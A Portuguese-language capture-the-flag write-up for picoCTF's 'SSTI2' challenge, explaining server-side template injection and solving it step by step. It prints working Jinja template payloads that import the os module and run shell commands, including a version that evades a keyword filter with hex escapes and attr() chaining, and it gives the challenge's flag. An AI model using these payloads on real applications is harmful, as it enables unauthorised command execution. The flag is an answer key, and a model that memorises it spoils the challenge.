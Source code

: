 # 🦆 DuckWare - SSTI2

---

>	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/488
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI2 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.

-----
## 🧩 Desafio


<center><img src= 'SSTI2 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```


----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI2 fotos/test.png' ></center>


<center><img src= 'SSTI2 fotos/49.png' ></center>  

- O retorno `49` indica que o site está **interpretando a entrada como código dentro de um template engine**.
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:

```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI2 fotos/codigo.png' ></center>  

- Esse resultado mostra que não será possível utilizar a forma literal para se encontrar a **flag**  
- Pode ser que o filtro pode bloquear os literais `__globals__`, mas não bloqueou o escape `\x5f\x5fglobals\x5f\x5f` 
-  Testando o mesmo  código com em hexadecimal

```

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
	
```



<center><img src= 'SSTI2 fotos/requirements.txt.png' ></center>  

-  Em seguida substituímos `ls` por `cat flag` e obtivemos o conteúdo da flag:
- Passando para hexa decimal 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

<center><img src= 'SSTI2 fotos/flag.png' ></center>  


---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade **SSTI**: o campo de entrada era avaliado pelo motor de templates, permitindo a execução de expressões. A aplicação tentou mitigar a falha bloqueando literais suspeitos (como `__globals__`), mas a proteção foi contornada ao usar escapes hexadecimais (`\x5f` → `_`) e acesso dinâmico a atributos via `attr`/`__getitem__`. Com isso foi possível importar o módulo `os` e executar `cat flag`, revelando a flag do desafio.

**Flag:** `picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}`